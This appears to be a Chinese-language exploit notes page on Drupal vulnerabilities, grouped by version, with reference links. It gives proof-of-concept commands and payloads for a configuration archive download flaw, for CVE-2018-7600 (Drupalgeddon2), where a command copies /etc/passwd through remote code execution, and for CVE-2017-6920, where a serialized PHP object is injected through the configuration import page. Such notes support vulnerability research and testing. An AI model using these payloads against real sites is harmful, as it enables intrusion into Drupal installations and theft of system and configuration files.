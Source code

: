 ## 8.1.9 

### config.tar.gz 下载漏洞

参考链接

* [Drupal 8 配置文件下载漏洞分析](http://blog.knownsec.com/2016/09/drupal-8-config-download/)

Poc

```
# 后台导出配置后，执行这个
wget 'http://127.0.0.1/system/temporary/?file=config.tar.gz' -O config.tar.gz
```

## 8.3.3

### CVE-2018-7600

参考链接

* [dreadlocked/Drupalgeddon2 - Exploit for Drupalgeddon 2 - CVE-2018-7600](https://github.com/dreadlocked/Drupalgeddon2)

Poc

```
python2.7 CVE-2018-7600.py http://127.0.0.1/ 'cp /etc/passwd /tmp'
```

### yaml 反序列化漏洞

参考链接

* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

影响版本

* <= 8.3.3

Poc

```
打开 /admin/config/development/configuration/single/import

导入 Single configuration

!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```